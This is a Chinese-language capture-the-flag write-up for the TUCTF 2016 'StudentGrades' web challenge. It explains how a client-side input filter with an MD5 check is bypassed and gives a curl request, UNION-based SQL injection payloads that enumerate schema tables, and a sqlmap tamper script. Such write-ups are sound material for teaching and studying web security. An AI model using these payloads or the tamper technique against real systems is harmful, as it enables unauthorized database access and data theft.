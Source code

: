 ```yaml
---
layout:     post
title:      "tuctf2016-web-StudentGrades"
date:       2016-05-30 14:00
category:   writeup
tag:        [tuctf2016,sql,代码审计]
---
```

# 题目信息

`score: 200` `type:web,sql,代码审计` `source: tuctf2016`


[原题地址](http://104.199.151.39/index.html) &emsp;[猜解源码](https://github.com/ssst0n3/ctf-wp/tree/master/2016/tuctf/web/StudentGrades)&emsp;[题目收集](http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/)

## 题目描述

We are trying to find out what our grade was, but we don't seem to be in the database...

Can you help us out?

[点击这里](http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/)

打开网址，一个查询界面

![](tuctf2016-StudentGrades-1.png)

## 知识点

[Ajax](http://www.w3school.com.cn/jquery/ajax_ajax.asp)

[sql injection](https://www.youtube.com/watch?v=0tyerVP9R98&index=19&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)

# 题目分析

## 查看源代码

页面本身没什么特别的，查看源代码发现一段javaScript

```
<script>
document.getElementById('submit').addEventListener('click',
  function(event){
    event.preventDefault();
    var input = document.getElementById('info');
    //var query = 'SELECT * from Names where name=\'' + input.value + '\'';
    var inp_str = input.value;
    inp_str = inp_str.replace(/\W+/g, " ");
    var md5_str = hex_md5(inp_str);
    var send_str = inp_str+' '+md5_str;
    var post_data = {name: send_str, submit:1};
    $.ajax({
        type: "POST",
        url: "postQuery.php",
        data: post_data,
        success: function(data){document.getElementById('results').innerHTML=data;}
    });
  }
);
</script>
```

由源码得知，在点击submit按钮之后，我们输入的字符串通过ajax方式传递给postQuery.php,postQuery再将查询结果返回来。

## 分析源码漏洞

代码对输入字符串做了过滤

`inp_str = inp_str.replace(/\W+/g, " ");`

匹配任何非单词字符，等价于“[^A-Za-z0-9_]”，然后替换成空格。

同时，我们注意到，代码还做了如下处理

```
var md5_str = hex_md5(inp_str);
var send_str = inp_str+' '+md5_str;
```

即在字符串后附加该字符串的md5值，如果发生了字符串替换，则md5必然不同，可以认为用户输入了非法字符。

因为对字符串的过滤处理放在了前端，因此我们可以直接向postQuery.php发送我们自己定义的数据以绕过过滤

```
curl -d "name=boby c83e4046a7c5d3c4bf4c292e1e6ec681&submit=1"  http://104.199.151.39/postQuery.php
```

而如果将同样的过滤处理放在后端的话，则绕过就比较难

# Exploit1
```
# coding: utf-8
import requests, md5
m = md5.new()

query1 = "tables%' UNION SELECT database(), @@version; -- "

query2 = "tables%' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'; -- "

query3 = "tables%' union select table_name,column_name from information_schema.columns where table_schema != 'mysql' AND table_schema != 'information_schema'; -- "

query4 = "tables%' union select * from tuctf_junk; -- "

query5 = "tables%' union select * from tuctf_info; -- "

m.update(query3)

r = requests.post("http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/postQuery.php", data={"name":query3+' '+m.hexdigest(),"submit":"1"})

print r.text
```

# Exploit2

addmd5.py

```
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import md5

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
		 m = md5.new()
		 m.update(payload)
		 retVal = payload +' '+m.hexdigest()
    return retVal
```

`sqlmap -u http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/postQuery.php --schema --exclude-sysdbs --tamper addmd5.py`

# 参考文献

http://www.codehead.co.uk/tuctf2016-student-grades/
